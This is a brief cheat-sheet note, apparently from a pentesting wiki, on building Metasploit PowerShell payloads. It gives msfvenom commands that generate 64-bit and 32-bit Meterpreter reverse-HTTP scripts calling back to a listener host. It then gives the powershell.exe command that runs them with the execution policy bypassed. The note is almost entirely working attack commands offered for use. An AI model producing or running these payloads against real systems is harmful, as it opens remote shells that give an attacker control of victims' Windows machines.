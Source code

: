 <!-- TITLE: Metasploit Powershell Payload -->
<!-- SUBTITLE: A quick summary of Metasploit Powershell Payload -->

# Header
Grabbed from https://blog.didierstevens.com/2017/08/16/generating-powershell-scripts-with-msfvenom-on-windows/

```
msfvenom –p windows/x64/meterpreter_reverse_http –format psh –out meterpreter-64.ps1 LHOST=10.0.0.1
msfvenom –p windows/meterpreter_reverse_http –format psh –out meterpreter-32.ps1 LHOST=10.0.0.1
```

# To Run
```
powershell.exe -ExecutionPolicy Bypass -NoExit -File meterpreter-64.ps1
```
